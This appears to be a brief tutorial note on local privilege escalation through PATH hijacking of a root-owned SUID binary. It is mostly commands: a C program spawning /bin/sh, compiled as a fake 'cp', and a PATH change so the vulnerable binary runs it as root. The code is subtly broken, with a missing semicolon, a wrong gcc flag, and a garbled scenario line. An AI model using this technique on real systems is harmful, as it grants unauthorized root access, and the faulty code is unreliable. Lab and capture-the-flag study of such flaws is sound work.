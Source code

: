 ### SUID + PATH = Privilege Escalation
**Scenario**
A binary called `copy-to-root`, owned by root with the SUID bit set, calls `system(cp argv[1] /root/` to copy files to `/root/`.

**Exploitation**
- Create a `/tmp/cp.c` file and add the following code:
	```bash
	# include <stdlib.h>
	int main(){
	system("/bin/sh")
	}
```

- Compile it
	```bash
	gcc -c /tmp/cp /tmp/cp.c 
```
	- /tmp/cp.c - input (C source file)
	- /tmp/cp - output (compiled binary)

- Add /tmp to the PATH variable
	```bash
	export PATH=/tmp:$PATH
```

- Run the vulnerable binary
	```bash
	./copy-to-root
```

This will cause the `copy-to-root` binary to call `cp` from PATH, effectively spawning a root shell.